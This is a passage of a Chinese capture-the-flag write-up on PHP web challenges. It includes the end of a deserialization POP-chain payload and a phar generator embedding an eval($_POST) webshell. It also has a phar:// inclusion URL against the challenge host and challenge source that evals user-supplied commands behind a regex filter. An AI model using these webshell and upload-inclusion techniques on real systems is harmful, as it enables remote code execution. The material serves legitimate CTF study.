 ```php
    {
        $this->$name = $value;
        if ($this->fun = "sixsixsix") {
            strtolower($this->a);
        }
    }
}
$a=new TianXiWei();
$a->ext=new Ilovetxw();
$a->ext->huang=new four();
$a->ext->huang->a=new Ilovetxw();
$a->ext->huang->a->su=new NISA();
echo urlencode(serialize($a));
?>

```

##  bingdundun~

考点：phar文件上传getshell

提示可以上传压缩包，所以就想到了`zip协议`和`phar协议`

这儿是一个index（代码自动补充后缀`.php`）的文件内容打开，说明可能是一个文件包含

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-nxgD958l-1657701115002)(C:/Users/15908387732/AppData/Roaming/Typora/typora-user-images/image-20220713150032036.png)]



```php
<?php
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("test.php", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```

生成后phar需要改成`zip`后缀（phar文件和zip文件都是压缩性文件）直接上传，然后包含

```
http://1.14.71.254:28458/?bingdundun=phar:///var/www/html/e4fc58499d8c95a560b2fe3c6de98776.zip/test
```

##  middlerce

考点：绕过preg_match实现RCE

```php
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
```